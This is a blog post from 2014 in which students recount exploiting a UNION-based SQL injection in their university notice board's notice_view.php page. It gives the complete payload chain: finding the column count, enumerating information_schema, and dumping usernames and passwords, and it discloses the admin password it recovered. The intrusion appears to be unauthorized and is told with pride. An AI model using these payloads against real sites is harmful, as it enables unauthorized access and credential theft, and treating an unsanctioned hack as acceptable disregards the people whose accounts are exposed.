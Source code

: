 ```yaml
---
layout: post
title: We hacked our university notice board!
date: 2014-07-10 06:44:56.000000000 +05:30
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 5668e0defa143267af983836917cd517
---
```


It's been nearly 3 months since my last post. Today I thought "It will be helpful for the guys who are interested in Cyber Security , If I write about UNION Based SQLi that we did on our univeristy Notice board.
A little learning part before we jump on to exploitation.

<pre>
<b># Just selecting 1 2 and 3</b>
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+

<b># database() is a MySQL function to get current database name.</b>
mysql> select database();
+-----------------+
| database()      |
+-----------------+
| UNIONBased_SQLi |
+-----------------+

<b># Just selecting 1,database(),3</b>
mysql> select 1,database(),3;
+---+-----------------+---+
| 1 | database()      | 3 |
+---+-----------------+---+
| 1 | UNIONBased_SQLi | 3 |
+---+-----------------+---+

<b># group_concat() is a MySQL function which concatenates all the rows</b>
mysql> select group_concat(username,"-",password) from users;
+---------------------------------------------------+
| group_concat(username,"-",password)               |
+---------------------------------------------------+
| admin-admin@onb,N090001-rgukt123,N090002-rgukt123 |
+---------------------------------------------------+

<b># Example of a MySQL UNION operator. </b>
mysql> select 1,2,3 UNION select 4,5,6;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| 4 | 5 | 6 |
+---+---+---+

<b># UNION only works when two select statements have the same no.of columns.</b>
mysql> select 1,2,3 UNION select 5,6;
ERROR: The used SELECT statements have a different number of columns

<b># To nullify the result of LHS select statement I appended a condition 1=0
 which is false. So the results include only RHS select statement results.</b>
mysql> select username from users where sno=1 and 1=0 UNION select 1;
+----------+
| username |
+----------+
| 1        |
+----------+
</pre>

Good, have a glance at why we started this :-)

After doing brute-force attack on a webpage for getting flag in a [CTF](https://ctftime.org/ctf-wtf/), we thought it would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.

Hmm.. So what now, we noticed that in notice board there is a page `notice_view.php?id=1` which takes `id` as GET parameter.

{% include image.html url="/assets/5668e0defa143267af983836917cd517/onb.png" description="notice_view.php page" %}

And as we are web developers we came to an estimation that the backend MySQL query might be

{% highlight text %}
select * from tablename where somecolumnname=$_GET["id"];
{% endhighlight %}

Yeah... That one seems compromising and we just gave it a shot with our best injection payload i.e (single quote) into the GET parameter id. Viola!!

{% highlight text %}
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''' at line 1
{% endhighlight %}

Yes! This is vulnerable & we can proceed with exploitation. The best part starts now.

Our next step is to find database name that is used for storing passwords. Exciting isn't it? And we used the below payload

{% highlight text %}
1 and 1=0 UNION select 1,2,3,4,5 --
{% endhighlight %}

So the resultant query becomes

{% highlight text %}
select * from sometablename where
somecolumnname=1 and 1=0 UNION select 1,2,3,4,5 --;
{% endhighlight %}

That payload resulted in an error

{% highlight text %}
The used SELECT statements have a different number of columns
{% endhighlight %}

Yeah it worked. To apply union on 2 SQL query's both must have same no.of columns. But here we didn't know the no.of columns, so to find no.of columns we tried imagining from 1 to some number until which we will not get an SQL error. We used below payloads, and 3rd one made it!

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
{% endhighlight %}

{% include image.html url="/assets/5668e0defa143267af983836917cd517/injected.png" description="First Injection point" %}

So the backend query which is fetching notices is selecting 3 columns, but the webpage is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on webpage.

Cool, so now we can inject a code that will print database name on webpage. There is a MySQL function `database()` which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
{% endhighlight %}

And result of this query is..

{% include image.html url="/assets/5668e0defa143267af983836917cd517/database.png" description="Database name being displayed on page" %}

We have the database name `Notices`, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database `Notices`. In order to do so we have used this payload

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and
1=0 UNION select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES
where TABLE_SCHEMA='Notices' --
{% endhighlight %}

And the result is

{% include image.html url="/assets/5668e0defa143267af983836917cd517/tables.png" description="Table names being displayed on page" %}

Now we got all the tables in `Notices` Database and those are `notices, users`. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION
select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
{% endhighlight %}

{% include image.html url="/assets/5668e0defa143267af983836917cd517/columns.png" description="Column names being displayed on page" %}

Now we just need to print password column from that table, used below payload.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0
UNION select 1,group_concat(username,"-",password),3 from users --
{% endhighlight %}

Result is...

{% include image.html url="/assets/5668e0defa143267af983836917cd517/passwords.png" description="Passwords being displayed on page" %}

Ah! Finally, the admin password is on page and it is: `admin@onb`

And in this post I keep on mentioning we. So we are

[Nageswara Rao Podilapu (Me)](https://www.facebook.com/nageswararao.podilapu) <br>
[Anesh Parvatha](https://www.facebook.com/anesh.cse) <br>
[Ambati Bharath](https://www.facebook.com/bharath.hussy)
